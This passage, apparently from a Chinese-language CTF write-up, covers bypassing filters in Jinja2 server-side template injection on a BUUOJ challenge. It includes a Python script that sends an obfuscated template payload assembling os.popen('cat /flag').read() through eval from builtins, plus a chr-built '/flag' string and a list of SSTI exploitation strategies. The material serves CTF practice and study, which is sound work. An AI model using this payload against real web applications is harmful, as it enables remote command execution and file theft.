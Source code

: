 ```perl
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
```

同样 `set` 是可用的, 考虑构造:

```python
import requests

url = "http://9715ab4d-3ad0-491f-8476-32dc25d93bd8.node5.buuoj.cn:81/login"
payload = "{% set zero = (self|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs %}{% set three = (zero-one-one-one)|abs %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set seven = (zero-one-one-five)|abs %}{% set nine = (zero-seven-one-one)|abs %}{% set point = self|float|string|min %}{% set c = dict(c=aa)|reverse|first %}{% set bfh = self|string|urlencode|first %}{% set bfhc=bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set yin = bfhc%((three~nine)|int) %}{% set xhx = bfhc%((nine~five)|int) %}{% set right = bfhc%((four~one)|int) %}{% set left = bfhc%((four~zero)|int) %}{% set space = bfhc%((three~two)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set so = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx~xhx~but~xhx~xhx %}{% set ini = dict(ini=aa,t=bb)|join %}{% set glo = dict(glo=aa,bals=bb)|join %}{% set itm = dict(ite=aa,ms=bb)|join %}{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in (self|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}{% if f == bul %}{% for a,b in (v|attr(itm))() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}"

payload = payload.replace(' ', '\n')
data = {"username": payload, "password": "123456"}
r = requests.post(url=url, data=data)
print(r.text)

```

然后把所有的空格换成 `'\n'` 或者 `%0a`

![6-3.png](6-3.png)

#### 参考博客:

> [CSDN 总结](https://blog.csdn.net/2301_76690905/article/details/134301620)

> [※以 Bypass 为中心谭谈 Flask-jinja2 SSTI 的利用](https://buaq.net/go-74232.html)

### 思路汇总

SSTI 开局的思路无外乎这几种:

- 查配置文件
- 命令执行（其实就是沙盒逃逸类题目的利用方式）
- 文件读取
